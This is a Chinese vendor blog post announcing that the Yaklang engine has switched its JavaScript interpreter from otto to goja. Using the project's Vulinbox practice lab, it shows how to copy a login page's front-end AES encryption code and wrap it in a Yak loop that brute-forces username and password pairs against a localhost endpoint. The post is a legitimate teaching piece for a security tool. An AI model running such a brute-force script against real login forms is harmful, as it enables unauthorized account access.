 #  上新！更强大的JS引擎：goja   
原创 Lonelone  Yak Project   2024-04-25 17:30  
  
![](/articles/wechat2md-57d4b38fb5fac67b077017855ed50c43.gif)  
  
![](/articles/wechat2md-01c1c684e6a259dea97dd828d8543ec7.gif)  
  
  
## **前言**  

一直以来，Yaklang引擎使用 robertkrimen/otto （**以下简称otto**）作为 JavaScript 解释器以执行一些 JavaScript 代码。然而，最近用户提出的许多新需求在使用 otto 这个第三方库时遇到了一些问题，其主要原因是因为 otto 的语法树解析实现存在一些问题，因此在遇到一些执行压缩过后的 JavaScript 第三方依赖（如常见的CryptoJS）时会出现解析错误。  
  
为了解决这个问题，也为了完善用户的体验，我们决定使用 **dop251/goja** （**以下简称为 goja** ）这个第三方库来代替 otto 这个库，让 otto 这个库光荣退休。  
> otto: 我不是退役了 我只是没人要  
  
## **为什么选择 goja**  
  
选择 **goja**的原因有很多，列出主要的几点：  
- 完整的 ECMAScript 5.1 实现（甚至有不完整的ECMAScript 6.0 实现）  
  
- 通过了大部分的 tc39 tests，这是官方的 ECMAScript 一致性测试套件  
  
- 比 otto 的平均速度快6~7倍  
  
  
  
## **几乎一致性的API**  
  
对于yaklang语言的用户来说，此次升级是几乎无感知的，在升级的同时确保了 80% 的API无变动，但由于底层实现不尽相同，因此可能会存在某些不常用的函数（如js.ASTWalk，js.GetSTType  
）以及结构体方法（如Value）会存在某些差异，对此库用户的影响控制在合适的范围内。  
  
  
## **全新的****内置第三方JavaScript依赖API**  
 
此次升级的一个重要点在于为了解决使用某些常用 **JavaScript**第三方依赖（如上文提到的 **CryptoJS**）的问题。通过新的API，我们可以快速地使用这些 **JavaScript**第三方依赖，而省略编译的过程（初次编译之后会进行缓存，之后不再需要进行编译）。  
  
一个简单的使用**CryptoJS V3**的例子如下：  
```
_, value = js.Run(`
    CryptoJS.HmacSHA256("Message", "secret").toString();
 `, js.libCryptoJSV3())~
 println(value.String())
```  
## **实战案例**    
以 **Yakit** 自带的 **Vulinbox**靶场其中的高级前端加解密与验签实战 - CryptoJS.AES(CBC) 前端加密登陆表单  
为例，讲解一下如何使用升级后的 js 库。如何安装与启动 **Vulinbox**靶场这里不再赘述。靶场详细参考此文[【文末抽奖】Yak叫你来打靶了](http://mp.weixin.qq.com/s?__biz=Mzk0MTM4NzIxMQ==&mid=2247512304&idx=1&sn=dc1f3b3119309c495f1bd438b6b8b059&chksm=c2d1cc54f5a645420b1a075484b3f444d4b29736b7aa32265c877ba1a45620fdf04fcd9d7cda&scene=21#wechat_redirect)  
   
网站页面如下：  
  
![](/articles/wechat2md-82dafeff9bdc72ca6c35d609d98398fd.png)  
  
打开网站后，我们查看其页面源代码，观察前端是如何对数据进行加密的，主要核心代码如下：  
```
var iv = CryptoJS.lib.WordArray.random(128/8);

function generateKey() {
    return  CryptoJS.enc.Utf8.parse("1234123412341234")  // 十六位十六进制数作为密钥
}

const key = generateKey()

// 加密方法
function Encrypt(word) {
    console.info(word);
    return  CryptoJS.AES.encrypt(word, key, {iv: iv}).toString(); 
}

function getData() {
    return {
        "username": document.getElementById("username").value,
        "password": document.getElementById("password").value,
    }
}

function outputObj(jsonData) {
    const word = JSON.stringify(jsonData);
    return {
        "data": Encrypt(word),
        "key": key.toString(),
        iv: iv.toString(),
    }
}

function submitJSON(event) {
    event.preventDefault();

    const url = "/crypto/js/lib/aes/cbc/handler";
    let jsonData = getData();
    let submitResult = JSON.stringify(outputObj(jsonData), null, 2)
    // 使用submitResult请求后台接口...
}

document.getElementById("json-form").addEventListener("submit", submitJSON)
```  
  
简单分析知道，其最后请求的请求体是 **submitResult**这个变量，这是一段JSON，包含了 **data**, **key**, **iv**三个属性，其中 key 是固定的，iv 是随机生成的。虽然 iv 是随机生成的，但是并不影响我们进行爆破，我们可以同样生成一个新的iv或者使用页面的iv也可。  
  
最后我们提炼出以下代码，基本上直接复制上述的js代码稍作修改即可使用：   
```
// 注意这里我们不能直接复制 key 的赋值代码，这是因为 ECMAScript 5.1 不支持 const 关键字
key = CryptoJS.enc.Utf8.parse("1234123412341234");
iv = CryptoJS.lib.WordArray.random(128/8);

function Encrypt(word) {
    console.info(word);
    return  CryptoJS.AES.encrypt(word, key, {iv: iv}).toString(); 
}

function getData(username, password) {
    return {
        "username": username, 
        "password": password,
    }
}

function outputObj(jsonData) {
    const word = JSON.stringify(jsonData);
    return {
        "data": Encrypt(word),
        "key": key.toString(),
        iv: iv.toString(),
    }
}

jsonData = getData("username", "password"); // 这里填写爆破的用户名和密码
submitResult = JSON.stringify(outputObj(jsonData), null, 2);// 最后发送的请求体

```  
  
最终我们编写了一段简单的 Yak 代码，用于对此题进行爆破：  
```
for user in ["user", "admin"] {
    for pass in ["pass", "123456"] {
        vm, _ = js.Run(`
        key = CryptoJS.enc.Utf8.parse("1234123412341234");
        iv = CryptoJS.lib.WordArray.random(128/8);

        function Encrypt(word) {
            return  CryptoJS.AES.encrypt(word, key, {iv: iv}).toString(); 
        }

        function getData(username, password) {
            return {
                "username": username, 
                "password": password,
            }
        }

        function outputObj(jsonData) {
            const word = JSON.stringify(jsonData);
            return {
                "data": Encrypt(word),
                "key": key.toString(),
                iv: iv.toString(),
            }
        }

        jsonData = getData(%#v, %#v);
        submitResult = JSON.stringify(outputObj(jsonData), null, 2);` % [user, pass], js.libCryptoJSV3())~

        body = vm.Get("submitResult").String()

        rsp, _ = poc.Post("http://127.0.0.1:8787/crypto/js/lib/aes/cbc/handler", poc.replaceBody([]byte(body), false))~
        println(string(rsp.RawPacket))
    }
}
```  
  
![](/articles/wechat2md-290a7e3105ce58757542a21da3db5eb2.png)  
  
响应中显示解密前端内容成功，这证明我们已经成功将请求体进行加密，可以用于爆破，后续只需要在for循环填入需要爆破的用户名密码即可。  
  
  
**END**  
  
  
  
 **YAK官方资源**  
  
  
Yak 语言官方教程：  
https://yaklang.com/docs/intro/Yakit   
视频教程：  
https://space.bilibili.com/437503777Github  
下载地址：  
https://github.com/yaklang/yakitYakit  
官网下载地址：  
https://yaklang.com/Yakit  
安装文档：  
https://yaklang.com/products/download_and_install  
Yakit使用文档：  
https://yaklang.com/products/intro/  
常见问题速查：  
https://yaklang.com/products/FAQ  
  
![](/articles/wechat2md-85062b6e6c63b9d9d17d1e2a5ca2ec01.other)  
长按识别添加工作人员
开启Yakit进阶之旅  
![](/articles/wechat2md-14665f86963c7c123b43378ebc55bb0f.other)
  
  
